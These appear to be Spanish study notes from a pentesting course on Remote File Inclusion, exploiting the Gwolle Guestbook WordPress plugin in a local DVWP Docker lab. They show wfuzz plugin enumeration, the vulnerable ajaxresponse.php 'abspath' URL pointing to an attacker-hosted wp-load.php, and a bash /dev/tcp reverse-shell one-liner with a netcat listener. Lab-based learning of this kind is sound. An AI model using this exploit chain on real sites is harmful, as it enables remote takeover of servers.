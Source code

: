 ## Mis apuntes: 

Bueno hay que tener en cuenta que la sigla RFI viene de inclusión de archivos remotos, y estas al igual de los LFI(inclusión de archivos locales) se pueden convertir en RCE(Ejecución remota de código), montaremos un wordpress para con un plugin llamado gwolle veamos de que se trata los RCE
para poder instalar el plugin tenemos que hacer lo siguiente: 
```
docker exec -it dvwp_wordpress_1 bash
una vez dentro del contenedor, tenemos que ocupar chown: 
chown www-data:www-data -R wp-content
```
una ves se hace esto, podemos instalar:
![[Pasted image 20240229155124.png]]
para poder enumerar los plugins podemos ocupar wfuz, y tenemos un script para esto y es :
![[Pasted image 20240229182340.png]]
entonces la aplicación de wfuzz seria tal que asi: 
```
wfuzz -c --hc=404 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://localhost:31337/FUZZ
```
![[Pasted image 20240229190518.png]]
entonces por lo que encontramos en con esta enumeración es que gwolle esta instalado. 
ahora si buscamos en searchsploit el plugin podemos ver que existe 1 exploit para explotar este plugin: 
![[Pasted image 20240229191849.png]]
si hacemos un searchsploit -m el exploit a descargar, podemos ver que descargamos el script: 
![[Pasted image 20240229192010.png]]
para poder ver que hace el RFI tenemos que tener una configuración en la maquina ya establecida que es el allow_url_include = "on"; 
![[Pasted image 20240301012141.png]]
después de aplicar esta configuración, procederemos a hacer un ``docker restart [nombre de la maquina]``
ahora si vemos el exploit podemos ver lo siguiente:
![[Pasted image 20240301013006.png]]
vemos que hay una forma de poder mandar peticiones desde la url a un servidor web, por lo que si lo probamos conseguiremos lo siguiente: 
```
http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.1.88/
```
![[Pasted image 20240301013234.png]]
si bien no sale nada si vemos la parte del servidor veremos lo siguiente: 
![[Pasted image 20240301013316.png]]
ahi vemos que pregunta por un archivo wp-load.php, que si lo creamos y ponemos un script en php podemos ejecutar comandos dentro de la maquina: 
![[Pasted image 20240301013644.png]]
![[Pasted image 20240301013706.png]]
ahora podemos controlar los comandos a traves de la url de la siguiente forma: 
![[Pasted image 20240301013839.png]]
![[Pasted image 20240301013900.png]]
por lo tanto estamos haciendo un RCE, si mandamos el siguiente one liner y nos ponemos en escucha por el puerto 443 con netcat  podremos tomar posesion de la maquina facilmente: 
```
localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.1.88/&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.88/443 0>%261"

comando de netcat: 
nc -nlvp 443
```
![[Pasted image 20240301014312.png]]
![[Pasted image 20240301014322.png]]



----
## Datos de la clase: 

La vulnerabilidad **Remote File Inclusion** (**RFI**) es una vulnerabilidad de seguridad en la que un atacante puede **incluir** **archivos remotos** en una aplicación web vulnerable. Esto puede permitir al atacante ejecutar código malicioso en el servidor web y comprometer el sistema.

En un ataque de RFI, el atacante utiliza una entrada del usuario, como una URL o un campo de formulario, para incluir un archivo remoto en la solicitud. Si la aplicación web no valida adecuadamente estas entradas, procesará la solicitud y devolverá el contenido del archivo remoto al atacante.

Un atacante puede utilizar esta vulnerabilidad para incluir archivos remotos maliciosos que contienen código malicioso, como virus o troyanos, o para ejecutar comandos en el servidor vulnerable. En algunos casos, el atacante puede dirigir la solicitud hacia un recurso PHP alojado en un servidor de su propiedad, lo que le brinda un mayor grado de control en el ataque.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando para practicar esta vulnerabilidad:

- **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Asimismo, se os comparte el enlace directo para la descarga del plugin ‘**Gwolle Guestbook**‘ de WordPress:

- **Gwolle Guestbook**: [https://es.wordpress.org/plugins/gwolle-gb/](https://es.wordpress.org/plugins/gwolle-gb/)